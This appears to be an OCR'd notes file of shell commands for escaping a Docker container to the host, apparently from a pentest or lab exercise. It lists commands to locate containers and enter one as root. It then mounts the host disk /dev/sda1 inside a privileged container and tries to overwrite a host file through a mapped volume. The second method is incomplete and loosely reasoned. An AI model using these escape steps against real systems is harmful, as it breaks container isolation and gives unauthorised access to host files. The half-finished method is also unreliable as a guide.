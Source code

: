 
# ─── Find Container ID ─────────────────────────────────────────────────────

# Option 1: Try listing containers (if allowed)
docker ps

# Option 2: Check local Docker metadata
ls /var/snap/docker/common/var-lib-docker/containers/

# Option 3: Look for running containerd shims
ps aux | grep containerd-shim


# ─── Enter the Container as Root ───────────────────────────────────────────

sudo /snap/bin/docker exec -it -u root <container_id> /bin/bash


# ─── Method 1: Escape via /dev mount ───────────────────────────────────────

sudo docker exec -u root --privileged e6ff5b1cbc85cdb2157879161e42a08c1062da655f5a6b7e24488342339d4b81 mkdir /mnt/host

sudo docker exec -u root --privileged e6ff5b1cbc85cdb2157879161e42a08c1062da655f5a6b7e24488342339d4b81 mount /dev/sda1 /mnt/host

sudo docker exec -u root --privileged -it e6ff5b1cbc85cdb2157879161e42a08c1062da655f5a6b7e24488342339d4b81 /bin/bash
ls /mnt/host


# ─── Method 2: Overwrite Host File via Mapped Volume ───────────────────────

# Step 1 (host - unprivileged user):
cat /var/snap/docker/common/var-lib-docker/containers/<container_id>/hostname
# → confirm that it's writable and mapped to host (in our case, we had no access but that's okay)

# Step 2 (inside container - as root):
chmod 777 /etc/hostname
